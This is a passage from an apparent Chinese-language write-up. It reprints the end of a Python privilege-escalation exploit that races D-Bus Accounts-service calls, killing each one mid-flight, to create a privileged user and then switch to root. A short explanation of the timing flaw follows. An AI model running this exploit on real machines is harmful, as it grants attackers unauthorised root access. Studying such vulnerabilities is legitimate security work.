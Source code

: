 ```
    		process.kill()

	user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
	if user.find("uid") != -1:
		print("[+] User Created with the name of ahmed")
		print("[+] Timed out at: "+str(Random))
		check =False
		break
	if counter > 2000:
		print("[-] Couldn't add the user, try again it may work")
		sys.exit(0)


for i in range(200):
	#print(i)
	uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

	#In case you need to put a password un-comment the code below and put your password after string:yourpassword'
	password = "string:"
	#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
	#password = f"string:{res.rstrip()}"

	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
	try:
    		#print('1 - Running in process', process.pid)
    		Random = random.uniform(0.006,0.009)
    		process.wait(timeout=Random)
    		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```

选取其中python版本阅读。其实逻辑和手操一样，先发起创建请求，然后wait()一个random时间，时间一到就直接kill。id查询是否创建成功，没成功就循环上面操作。成功就继续添加密码，操作和创建用户一样。最后切换到创建的特权用户即可。注意这里创建的用户是一个特权用户，最后还需要`sudo su`才能切到root。

所以这个漏洞本身利用竞争：

```
正常流程：    请求 → 权限检查 → 执行操作
漏洞利用：    请求 → 权限检查 ╳ 终止进程 → 执行操作（跳过检查）
                     ↑
                在这个时间点终止
```